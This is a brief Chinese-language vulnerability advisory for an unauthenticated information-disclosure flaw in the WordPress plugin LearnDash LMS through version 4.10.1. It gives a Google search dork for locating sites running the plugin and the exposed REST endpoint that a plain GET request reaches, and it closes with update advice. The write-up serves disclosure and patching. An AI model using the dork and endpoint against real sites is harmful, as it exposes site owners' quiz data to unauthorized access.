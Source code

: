 **漏洞名称**

WordPress Plugin LearnDash LMS 敏感信息未授权访问漏洞

**漏洞影响**

WordPress Plugin LearnDash LMS <= 4.10.1

**漏洞描述**



WordPress和WordPress plugin都是WordPress基金会的产品。WordPress是一套使用PHP语言开发的博客平台。该平台支持在PHP和MySQL的服务器上架设个人博客网站。WordPress plugin是一个应用插件。

WordPress Plugin LearnDash LMS 4.10.1及之前版本存在安全漏洞，该漏洞源于容易通过API暴露敏感信息，未经身份验证的攻击者可能获得测验的访问权限。

**google搜索语句**

```
inurl:"/wp-content/plugins/sfwd-lms"
```

**漏洞复现**

路径

```
/wp-json/ldlms/v1/sfwd-quiz
```

get请求可以使用浏览器访问

漏洞复现成功

**修复建议**

建议您更新当前系统或软件至最新版，完成漏洞的修复。